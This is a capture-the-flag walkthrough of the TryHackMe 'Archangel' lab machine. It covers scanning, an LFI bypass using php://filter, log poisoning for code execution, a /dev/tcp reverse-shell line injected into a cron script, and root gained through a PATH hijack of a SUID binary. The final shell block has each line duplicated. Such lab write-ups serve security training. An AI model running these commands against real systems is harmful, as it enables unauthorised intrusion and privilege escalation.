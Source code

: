 ```yaml
---
layout: post
title: Walkthrough - Archangel
published: True
---
```


Boot2root, Web Exploitation, Privilege Escalation, LFI. A well known security solutions company seems to be doing some testing on their live machine. Best time to exploit it.

[https://tryhackme.com/room/archangel](https://tryhackme.com/room/archangel)

* * *

## Get a shell

- nmap

```shell
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9f:1d:2c:9d:6c:a4:0e:46:40:50:6f:ed:cf:1c:f3:8c (RSA)
|   256 63:73:27:c7:61:04:25:6a:08:70:7a:36:b2:f2:84:0d (ECDSA)
|_  256 b6:4e:d2:9c:37:85:d6:76:53:e8:c4:e0:48:1c:ae:6c (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Wavefire
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- gobuster scans

```shell
/pages                (Status: 301) [Size: 314] [--> http://10.10.100.253/pages/]
/images               (Status: 301) [Size: 315] [--> http://10.10.100.253/images/]
/flags                (Status: 301) [Size: 314] [--> http://10.10.100.253/flags/] 
/layout               (Status: 301) [Size: 315] [--> http://10.10.100.253/layout/]
```

**Find a different hostname**

![](/assets/archangel01.png)

- checking the source code of ``http://10.10.100.253`` we find ``support@mafialive.thm`` we can add this domain to the hosts file  to continue enumeration. After traveling there we find our first flag.

**Find flag 1**

![](/assets/archangel02.png)

**Look for a page under development**

- ``gobuster dir -u http://mafialive.thm/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 500 -x php,txt --no-error``
- we find a page but we canty view the code in test.php have to find a way around this.
- ``curl -s http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php`` using ``php://filter`` allows us to bypass the protection and ``convert.base64-encode/resource=`` lets us encode test.php as base64 lets see what we are working with

**Find flag 2**

```php
<?php

	    //FLAG: thm{explo1t1ng_lf1}

            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    if(isset($_GET["view"])){
	    if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing')) {
            	include $_GET['view'];
            }else{

		echo 'Sorry, Thats not allowed';
            }
	}
        ?>
```

**Get a shell and find the user flag**

- the url must not contain ``../..`` but must contain ``/var/www/html/development_testing``
- so we need to use LFI Log Poisoning...having never attempted this before going to follow [this writeup](https://shahjerry33.medium.com/rce-via-lfi-log-poisoning-the-death-potion-c0831cebc16d).
- we can setup php webserver with php reverse shell and get this over to the target machine by poisining the log file with thee user-agent.

- start by poising the logfile with the php payload in the user-agent string

![](/assets/archangel03.png)

- we get ``cmd=id HTTP/1.1" 200 997 "-" "uid=33(www-data) gid=33(www-data) groups=33(www-data) " ``
- now we can wget our reverse shell, then traverse to open up the reverse shell when we have our netcat listener setup.

* * * 

## What is the user flag?

![](/assets/archangel04.png)

* * * 

## What is the root flag?

- checking the ``/etc/crontab`` can see that we can move to archangel - ``echo "sh -i >& /dev/tcp/10.2.127.225/6670 0>&1" >> /opt/helloworld.sh``
- setup listener ``rlwrap nc -lvnp 6670``

![](/assets/archangel05.png)

- Now that we found user 2 flag we can continue escaliation to root.

- ``find / -perm -u=s -type f 2>/dev/null`` we can see that ``/home/archangel/secret/backup`` has a suid set
- checking out the backup file with ``strings`` we can see it runs ``cp`` but doesnt use a path so we can take advantage of this and leave a cp program in the directory for it to run.

```shell
cat > cp << EOF
cat > cp << EOF
#!/bin/bash
#!/bin/bash
/bin/bash -i
/bin/bash -i
EOF
EOF
chmod +x cp
chmod +x cp
export PATH=/home/archangel/secret:$PATH
export PATH=/home/archangel/secret:$PATH
./backup
./backup
id
id
uid=0(root) gid=0(root) groups=0(root),1001(archangel)
root@ubuntu:~/secret# 
```

- ``cat /root/root.txt``

* * * 

